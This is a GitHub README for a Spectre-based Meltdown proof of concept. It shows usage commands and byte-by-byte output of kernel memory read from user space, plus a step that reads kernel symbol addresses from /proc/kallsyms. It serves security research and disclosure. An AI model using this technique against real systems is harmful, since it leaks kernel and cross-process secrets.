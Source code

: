 Spectre-Based Meltdown Attack
=============================
Create a tiny Meltdown proof of concept (PoC) based on Spectre attack technique.

For the detailed explanation what is Spectre, Meltdown and how the attack works,
please see 'The Spectre of Meltdowns' presentation on SlideShare:<br/>
https://www.slideshare.net/AndriyBerestovskyy/the-spectre-of-meltdowns


Expectations
------------
It is expected that the Spectre attack technique could be used to perform Meltdown attack as well. The [original Spectre paper proof of concept](https://spectreattack.com/spectre.pdf) was used as a basis for the work.


Example Usage
-------------
### Meltdown on Linux 3.13: no command line arguments
With no command line arguments, the program will try to read the content of address `0xffffffff81800040` which is the address of the Linux kernel 3.13 `linux_proc_banner` string, located inside the kernel space:

    a@b:~/p/spectre-meltdown$ gcc --version
    gcc (Ubuntu 5.4.1-2ubuntu1~16.04) 5.4.1 20160904
    [...]
    a@b:~/p/spectre-meltdown$ uname -a
    Linux b 3.13.0-85-generic #129-Ubuntu SMP Thu Mar 17 20:50:15 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux

    a@b:~/p/spectre-meltdown$ ./spectre-meltdown-99
    0xffffffff81800040 = 0x25 ('%')
    0xffffffff81800041 = 0x73 ('s')
    0xffffffff81800042 = 0x20 (' ')
    0xffffffff81800043 = 0x76 ('v')
    0xffffffff81800044 = 0x65 ('e')
    0xffffffff81800045 = 0x72 ('r')
    0xffffffff81800046 = 0x73 ('s')
    0xffffffff81800047 = 0x69 ('i')
    0xffffffff81800048 = 0x6f ('o')
    0xffffffff81800049 = 0x6e ('n')
    0xffffffff8180004a = 0x20 (' ')
    0xffffffff8180004b = 0x25 ('%')
    0xffffffff8180004c = 0x73 ('s')
    0xffffffff8180004d = 0x20 (' ')
    0xffffffff8180004e = 0x28 ('(')
    0xffffffff8180004f = 0x62 ('b')
    0xffffffff81800050 = 0x75 ('u')
    0xffffffff81800051 = 0x69 ('i')
    0xffffffff81800052 = 0x6c ('l')
    0xffffffff81800053 = 0x64 ('d')
    0xffffffff81800054 = 0x64 ('d')
    0xffffffff81800055 = 0x40 ('@')
    0xffffffff81800056 = 0x6c ('l')
    0xffffffff81800057 = 0x67 ('g')
    0xffffffff81800058 = 0x77 ('w')
    0xffffffff81800059 = 0x30 ('0')
    0xffffffff8180005a = 0x31 ('1')
    0xffffffff8180005b = 0x2d ('-')
    0xffffffff8180005c = 0x33 ('3')
    0xffffffff8180005d = 0x32 ('2')
    0xffffffff8180005e = 0x29 (')')
    0xffffffff8180005f = 0x20 (' ')
    0xffffffff81800060 = 0x28 ('(')
    0xffffffff81800061 = 0x67 ('g')
    0xffffffff81800062 = 0x63 ('c')
    0xffffffff81800063 = 0x63 ('c')
    0xffffffff81800064 = 0x20 (' ')
    0xffffffff81800065 = 0x76 ('v')
    0xffffffff81800066 = 0x65 ('e')
    0xffffffff81800067 = 0x72 ('r')
    0xffffffff81800068 = 0x73 ('s')
    0xffffffff81800069 = 0x69 ('i')
    0xffffffff8180006a = 0x6f ('o')
    0xffffffff8180006b = 0x6e ('n')
    0xffffffff8180006c = 0x20 (' ')
    0xffffffff8180006d = 0x34 ('4')
    0xffffffff8180006e = 0x2e ('.')
    0xffffffff8180006f = 0x38 ('8')
    0xffffffff81800070 = 0x2e ('.')
    0xffffffff81800071 = 0x32 ('2')
    0xffffffff81800072 = 0x20 (' ')
    0xffffffff81800073 = 0x28 ('(')
    0xffffffff81800074 = 0x55 ('U')
    0xffffffff81800075 = 0x62 ('b')
    0xffffffff81800076 = 0x75 ('u')
    0xffffffff81800077 = 0x6e ('n')
    0xffffffff81800078 = 0x74 ('t')
    0xffffffff81800079 = 0x75 ('u')
    0xffffffff8180007a = 0x20 (' ')
    0xffffffff8180007b = 0x34 ('4')
    0xffffffff8180007c = 0x2e ('.')
    0xffffffff8180007d = 0x38 ('8')
    0xffffffff8180007e = 0x2e ('.')
    0xffffffff8180007f = 0x32 ('2')
    0xffffffff81800080 = 0x2d ('-')
    0xffffffff81800081 = 0x31 ('1')
    0xffffffff81800082 = 0x39 ('9')
    0xffffffff81800083 = 0x75 ('u')
    0xffffffff81800084 = 0x62 ('b')
    0xffffffff81800085 = 0x75 ('u')
    0xffffffff81800086 = 0x6e ('n')
    0xffffffff81800087 = 0x74 ('t')
    0xffffffff81800088 = 0x75 ('u')
    0xffffffff81800089 = 0x31 ('1')
    0xffffffff8180008a = 0x29 (')')
    0xffffffff8180008b = 0x20 (' ')
    0xffffffff8180008c = 0x29 (')')
    0xffffffff8180008d = 0x20 (' ')
    0xffffffff8180008e = 0x25 ('%')
    0xffffffff8180008f = 0x73 ('s')
    0xffffffff81800090 = 0xa ('
    ')
    0xffffffff81800091 = 0x0 ('')

### Meltdown on other Linux: address of `linux_proc_banner` as an argument
It is possible to run the PoC on another versions of Linux. To do so, an address of the `linux_proc_banner` must be passed as the command line argument.

The address of the structure could be found in `/proc/kallsym` as showed below, and the `root` privileges are needed to do so:

    kda@toster ~/workspace/tmp/spectre $ uname -a
    Linux toster 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux

    kda@toster ~/workspace/tmp/spectre $ sudo cat /proc/kallsyms | grep linux_proc_banner
    ffffffff81a00060 R linux_proc_banner

    kda@toster ~/workspace/tmp/spectre $ ./spectre ffffffff81a00060
    0xffffffff81a00060 = 0x25 ('%')
    0xffffffff81a00061 = 0x73 ('s')
    0xffffffff81a00062 = 0x20 (' ')
    0xffffffff81a00063 = 0x76 ('v')
    0xffffffff81a00064 = 0x65 ('e')
    0xffffffff81a00065 = 0x72 ('r')
    0xffffffff81a00066 = 0x73 ('s')
    0xffffffff81a00067 = 0x69 ('i')
    0xffffffff81a00068 = 0x6f ('o')
    0xffffffff81a00069 = 0x6e ('n')
    0xffffffff81a0006a = 0x20 (' ')
    0xffffffff81a0006b = 0x25 ('%')
    0xffffffff81a0006c = 0x73 ('s')
    0xffffffff81a0006d = 0x20 (' ')
    0xffffffff81a0006e = 0x28 ('(')
    0xffffffff81a0006f = 0x62 ('b')
    0xffffffff81a00070 = 0x75 ('u')
    0xffffffff81a00071 = 0x69 ('i')
    0xffffffff81a00072 = 0x6c ('l')
    0xffffffff81a00073 = 0x64 ('d')
    0xffffffff81a00074 = 0x64 ('d')
    0xffffffff81a00075 = 0x40 ('@')
    0xffffffff81a00076 = 0x6c ('l')
    0xffffffff81a00077 = 0x67 ('g')
    0xffffffff81a00078 = 0x77 ('w')
    0xffffffff81a00079 = 0x30 ('0')
    0xffffffff81a0007a = 0x31 ('1')
    0xffffffff81a0007b = 0x2d ('-')
    0xffffffff81a0007c = 0x32 ('2')
    0xffffffff81a0007d = 0x31 ('1')
    0xffffffff81a0007e = 0x29 (')')
    0xffffffff81a0007f = 0x20 (' ')
    0xffffffff81a00080 = 0x28 ('(')
    0xffffffff81a00081 = 0x67 ('g')
    0xffffffff81a00082 = 0x63 ('c')
    0xffffffff81a00083 = 0x63 ('c')
    0xffffffff81a00084 = 0x20 (' ')
    0xffffffff81a00085 = 0x76 ('v')
    0xffffffff81a00086 = 0x65 ('e')
    0xffffffff81a00087 = 0x72 ('r')
    0xffffffff81a00088 = 0x73 ('s')
    0xffffffff81a00089 = 0x69 ('i')
    0xffffffff81a0008a = 0x6f ('o')
    0xffffffff81a0008b = 0x6e ('n')
    0xffffffff81a0008c = 0x20 (' ')
    0xffffffff81a0008d = 0x35 ('5')
    0xffffffff81a0008e = 0x2e ('.')
    0xffffffff81a0008f = 0x33 ('3')
    0xffffffff81a00090 = 0x2e ('.')
    0xffffffff81a00091 = 0x31 ('1')
    0xffffffff81a00092 = 0x20 (' ')
    0xffffffff81a00093 = 0x32 ('2')
    0xffffffff81a00094 = 0x30 ('0')
    0xffffffff81a00095 = 0x31 ('1')
    0xffffffff81a00096 = 0x36 ('6')
    0xffffffff81a00097 = 0x30 ('0')
    0xffffffff81a00098 = 0x34 ('4')
    0xffffffff81a00099 = 0x31 ('1')
    0xffffffff81a0009a = 0x33 ('3')
    0xffffffff81a0009b = 0x20 (' ')
    0xffffffff81a0009c = 0x28 ('(')
    0xffffffff81a0009d = 0x55 ('U')
    0xffffffff81a0009e = 0x62 ('b')
    0xffffffff81a0009f = 0x75 ('u')
    0xffffffff81a000a0 = 0x6e ('n')
    0xffffffff81a000a1 = 0x74 ('t')
    0xffffffff81a000a2 = 0x75 ('u')
    0xffffffff81a000a3 = 0x20 (' ')
    0xffffffff81a000a4 = 0x35 ('5')
    0xffffffff81a000a5 = 0x2e ('.')
    0xffffffff81a000a6 = 0x33 ('3')
    0xffffffff81a000a7 = 0x2e ('.')
    0xffffffff81a000a8 = 0x31 ('1')
    0xffffffff81a000a9 = 0x2d ('-')
    0xffffffff81a000aa = 0x31 ('1')
    0xffffffff81a000ab = 0x34 ('4')
    0xffffffff81a000ac = 0x75 ('u')
    0xffffffff81a000ad = 0x62 ('b')
    0xffffffff81a000ae = 0x75 ('u')
    0xffffffff81a000af = 0x6e ('n')
    0xffffffff81a000b0 = 0x74 ('t')
    0xffffffff81a000b1 = 0x75 ('u')
    0xffffffff81a000b2 = 0x32 ('2')
    0xffffffff81a000b3 = 0x29 (')')
    0xffffffff81a000b4 = 0x20 (' ')
    0xffffffff81a000b5 = 0x29 (')')
    0xffffffff81a000b6 = 0x20 (' ')
    0xffffffff81a000b7 = 0x25 ('%')
    0xffffffff81a000b8 = 0x73 ('s')
    0xffffffff81a000b9 = 0xa ('
    ')
    0xffffffff81a000ba = 0x0 ('')


### Spectre: pass `0` as a command line argument
To run Spectre proof of concept, pass `0` as a command line argument:

    a@b:~/p/spectre-meltdown$ ./spectre-meltdown-99 0
    0x601080 = 0x4d ('M')
    0x601081 = 0x79 ('y')
    0x601082 = 0x20 (' ')
    0x601083 = 0x70 ('p')
    0x601084 = 0x61 ('a')
    0x601085 = 0x73 ('s')
    0x601086 = 0x73 ('s')
    0x601087 = 0x77 ('w')
    0x601088 = 0x6f ('o')
    0x601089 = 0x72 ('r')
    0x60108a = 0x64 ('d')
    0x60108b = 0x0 ('')

Conclusions
-----------
The tiny (99 lines) proof of concept was created and successfully tested on few Linux kernel versions. So indeed, the Spectre attack technique could be successfully used for Meltdown attack.

'The Spectre of Meltdowns' presentation on SlideShare:<br/>
https://www.slideshare.net/AndriyBerestovskyy/the-spectre-of-meltdowns
